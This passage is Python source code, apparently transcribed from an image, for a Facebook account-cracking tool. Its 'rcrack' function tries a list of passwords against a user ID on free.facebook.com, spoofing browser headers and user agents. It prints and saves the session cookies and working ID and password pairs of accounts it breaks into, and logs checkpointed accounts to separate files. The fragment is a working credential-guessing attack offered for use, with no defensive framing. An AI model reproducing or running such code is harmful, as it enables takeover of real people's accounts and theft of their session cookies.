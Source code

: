 def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://t.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('    \033[1;32m[$1F4T-OK]  ' +cid+ ' | ' +ps+    '  \n \033[1;33mCookie = \033[1;32m'+coki+  ' \n '+pro+'  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/$1F4T-OK.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('    \33[1;30m[$1F4T-CP] ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/$1F4T-CP.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1